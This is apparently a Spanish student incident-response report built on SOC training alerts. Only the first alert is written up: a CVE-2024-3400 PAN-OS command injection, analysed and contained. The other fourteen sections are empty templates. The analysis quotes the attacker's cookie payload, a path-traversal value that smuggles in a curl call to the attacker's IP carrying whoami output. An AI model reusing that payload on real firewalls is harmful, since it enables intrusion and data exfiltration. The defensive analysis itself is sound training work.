









# 4.2 Respuesta y seguimiento de incidentes (RA4.def)
## Índice

1. [SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)](#1)
2. [SOC227 - Microsoft SharePoint Server Elevation of Privilege - Possible CVE-2023-29357 Exploitation](#2)
3. [SOC170 - Passwd Found in Requested URL - Possible LFI Attack](#3)
4. [SOC202 - FakeGPT Malicious Chrome Extension](#4)
5. [SOC239 - Remote Code Execution Detected in Splunk Enterprise](#5)
6. [SOC175 - PowerShell Found in Requested URL - Possible CVE-2022-41082 Exploitation](#6)
7. [SOC235 - Atlassian Confluence Broken Access Control 0-Day CVE-2023-22515](#7)
8. [SOC168 - Whoami Command Detected in Request Body](#8)
9. [SOC164 - Suspicious Mshta Behavior](#9)
10. [SOC210 - Possible Brute Force Detected on VPN](#10)
11. [SOC251 - Quishing Detected (QR Code Phishing)](#11)
12. [SOC176 - RDP Brute Force Detected](#12)
13. [SOC163 - Suspicious Certutil.exe Usage](#13)
14. [SOC173 - Follina 0-Day Detected](#14)
15. [SOC250 - APT35 HyperScrape Data Exfiltration Tool Detected](#15)

## SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400) 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Command Injection on Software
- Criticidad: Crítico
- Descripción: Una vulnerabilidad de inyección de comandos se ha encontrado en el software de Palo Alto Networks PAN-OS 

Lo primero al revisar la incidencia, podemos ver que ya transmite un CVE, siendo el [CVE-2024-3400](https://security.paloaltonetworks.com/CVE-2024-3400), el cual revisaremos para detectar cual es dicha vulnerabilidad, y podemos comprobar que es una en la que tiene varios tipos de debilidades, los cuales son: Creación arbitraria de ficheros, Path Traversal y OS Command Injection.

El PA-Firewall-01 recibió una petición POST de la IP 144.172.79.92, siendo esta ‘/global-protect/login.esp/'. Como es lógico, el firewall lo detectó como la vulnerabilidad anteriormente mencionada, dado que detectó un SSEID alterado por el atacante, mostrando “SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaa\curl${IFS}144.172.79.92:4444?user=$(whoami)`”, que pretendía hacer el comando curl con el nombre de usuario. Debido a la seriedad del asunto, se escaló al L2 para una investigación más profunda.

Por lo pronto, se revisó el Endpoint para verificar todo:

Podemos comprobar que el Firewall puede ser afectado por la vulnerabilidad anteriormente mencionada. Además, verificando su tráfico, podemos comprobar que la transmisión es en dirección hacia el firewall.

Podemos comprobar dicha IP en la aplicación de Let's Defend para garantizar si es malicioso o no, además de una revisión extra en Virus Total, para tener una doble verificación:

También aparece en el tráfico de red de la propia máquina:

Una vez verificado todo, procedemos al análisis completo y profundo, dado que tenemos garantizado de que existe un ataque. Gracias a que tenemos el CVE del ataque, podemos comprobar los posibles exploits y formas que hayan podido atacar de una manera directa, empezando por los logs, dado que tenemos del día del ataque:

Al revisarlo, vemos que está la petición directa con el comando, garantizando que es malicioso el tráfico. Además, podemos ver que tiene un update.py adjunto, donde al revisar el hash en Virus Total, garantiza que es malicioso en su naturaleza.

Con todo, podemos garantizar que es Malicioso y que el tipo de ataque consiste en un Command Injection. Dado que no hubo avisos previos de posibles intentos de pruebas para testear la seguridad, podemos suponer que no es planeado por la propia empresa, y que debido a la IP del atacante, viene del exterior de la propia empresa. Debido a que las acciones fueron permitidas, el ataque fue exitoso, teniendo que pasar a hacer la contención de la máquina y aislarla del resto de la red hasta poder solucionarlo. 

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

Bloquear los servicios y actualizarlos rápidamente para solventar la vulnerabilidad, dado que en un parche se ha podido solucionar.

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

Se tuvo que aislar el dispositivo para tratar de evitar que se pudiera extender o que amenazara con proseguir con su uso no autorizado.

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

- Estar informado de las nuevas vulnerabilidades y parches disponibles para garantizar la reacción rápida para solucionar el incidente.
- Monitorizar adecuadamente los IoC para detectar cuando se vulneran, complementado con análisis en profundidad.
- Tener diversidad de logs para poder tener una visión más amplia de lo que puede ocurrir.

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

- Mantener actualizado todos los sistemas para poder garantizar que las vulnerabilidades antiguas no puedan afectar a los sistemas si existe una versión que erradica dicha vulnerabilidad del sistema en si.

## SOC227 - Microsoft SharePoint Server Elevation of Privilege - Possible CVE-2023-29357 Exploitation 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC170 - Passwd Found in Requested URL - Possible LFI Attack 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC202 - FakeGPT Malicious Chrome Extension 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC239 - Remote Code Execution Detected in Splunk Enterprise 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC175 - PowerShell Found in Requested URL - Possible CVE-2022-41082 Exploitation 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC235 - Atlassian Confluence Broken Access Control 0-Day CVE-2023-22515 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC168 - Whoami Command Detected in Request Body 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC164 - Suspicious Mshta Behavior 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC210 - Possible Brute Force Detected on VPN 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC251 - Quishing Detected (QR Code Phishing) 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC176 - RDP Brute Force Detected 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC163 - Suspicious Certutil.exe Usage 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC173 - Follina 0-Day Detected 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

## SOC250 - APT35 HyperScrape Data Exfiltration Tool Detected 

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia:
- Criticidad:
- Descripción:

2. Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el restablecimiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?

3. Tras trabajar en la resolución del incidente ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente?

4. Realizar un proceso de análisis de las actuaciones llevadas a cabo y obtener un registro de lecciones aprendidas, para finalmente concluir en las posibles mejoras que podrías plantear para tu plan/playbooks desarrollado en la práctica anterior

5. Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?

